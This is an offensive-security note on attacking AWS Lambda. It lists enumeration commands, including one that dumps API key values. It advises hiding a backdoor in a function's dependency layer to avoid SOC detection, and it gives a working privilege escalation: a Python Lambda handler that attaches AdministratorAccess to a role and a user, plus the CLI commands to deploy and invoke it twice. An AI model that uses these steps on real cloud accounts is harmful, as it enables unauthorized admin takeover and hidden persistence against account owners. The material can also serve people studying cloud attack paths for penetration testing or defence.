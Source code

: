 - Lambda is a serverless computing platform. In layman's terms, its a computing service that when triggered runs code and automatically consumes resources untill it finishes computing then it releases those resources once again
- Lambda function code can be triggered from other AWS services or it can be called directly from the API Gateway
- Lambda Functions can be triggered using `Synchronous`, `Asynchronous`, or `Stream` method, and once they are triggered they are considered in `Deployment` state

![[lambda.png]]

---
### Enumeration

| **Description** | **Command** |
|--- | --- |
|  List all lambda functions | `aws lambda list-functions` |
| Query a specific lambda function | `aws lambda get-function --function-name ${FN-Name}` |
| Retrieve policy information regarding a specific function | `aws lambda get-policy --function-name ${FN-Name}` |
| Retrieve ESM Information about a specific lambda function | `aws lambda list-event-source-mappings --function-name ${FN-Name}` |
| List Information About Layers | `aws lambda list-layers` |
| Get info about a specific layer | `aws lambda get-layer-version --layer-name ${LName} --version-number ${VNumber}` |
| List all REST APIs | `aws apigateway get-rest-apis` |
| Get info about a specific API | `aws apigateway get-rest-api --rest-api-id ${API-Id}`  |
|  Get info about the collection of resources | `aws apigateway get-resources --rest-api-id ${API-Id}` |
| Get info about a specific resource | `aws apigateway get-resource --rest-api-id ${API-Id} --resource-id ${Res-Id}` |
| Get Method info about a resource | `aws apigateway get-method --rest-api-id ${App_ID} --resource-id ${Res-Id} --http-method ${GET/POST/ANY}` |
| Get All Stages of a specific API | `aws apigateway get-stages --rest-api-id ${API-Id}` |
| Get info about a specific Stage | `aws apigateway get-stage --rest-api-id ${API-Id} --stage-name ${Stg-Name}` |
| List All API Keys | `aws apigateway get-api-keys --include-values` |
| Get Info about a specific Key | `aws apigateway get-api-key --api-key ${API-Key}` |

---
### Persistance

- If you compromised a user with enough privs to modify a lambda function and re-upload it, you can levrege this behaviour to add a backdoor to the function 
- Note: Adding a new lambda function can be detected easily by the SOC team, modifying  the function's code can be detected as well if the developer is reviewing/modifying the function. so, its best to add your backdoor inside the dependencies layer
- After you download the code and modify it, you can update it using `aws lambda update-function-code --function-name myfunction --zip-file fileb://loc-to-zip-file`
---
### Privesc

- You've managed to compromise a user that have both `iam:PassRole` & `lambda:CreateFunction` Permissions **+**   a lambda function role that contains the `iam:AttachRolePolicy` then you can levrege that to escalate your privileges 
- The `iam:AttachRolePolicy` gives us the permission to attach and policy (Including `AdministratorAccess`) to any role. 
- The `iam:PassRole` is critical for this scenario to work because by giving a role or user the `iam:PassRole` permission, you are is saying `this entity (principal) is allowed to assign AWS roles to resources and services in this account`
- So, you can create a new lambda function, leveraging the `iam:AttachRolePloicy` will allow us to attache the `AdministratorAccess` Policy to the lambda role.
- The above action gives the lambda function administrative access & then we can use that to attach the `AdministratorAccess` Policy to our user.

```py
import boto3
import json

def lambda_handler(event,context):
	iam = boto3.client('iam')
	
	# Attach a role policy
	iam.attach_role_policy(PolicyArn='arn:aws:iam::aws:policy/AdministratorAccess', RoleName='lambda-function-role')
	iam.attach_user_policy(PolicyArn='arn:aws:iam::aws:policy/AdministratorAccess', UserName='lambda-role-admin')
	
	return{
		"statusCode" : 200,
		"body" : json.dumps("Compromised!!!")
	}
```
- Now create the new lambda function using `aws lambda create-function --function-name PrivescFunc --runtime python3.7 --zip-file fileb://lambda_function.zip --handler lambda_function.lambda_handler --role ${Role-ARN} [--region ...]`
- Invoke the lambda function using `aws lambda invoke --function-name PrivescFunc response.json`
- Finally, check the policies attached to your user using `aws iam list-attached-user-policies --user-name lambda-role-admin`

**Note:** You have to invoke the `PrivescFunc` twice because the first time it'll successfully attach the admin policy to the role but the function still doesn't have enough permissions to attach the admin policy to users in the context of its first run, but in the second run, the function will already have admin access and can attach the admin policy to any user you desire
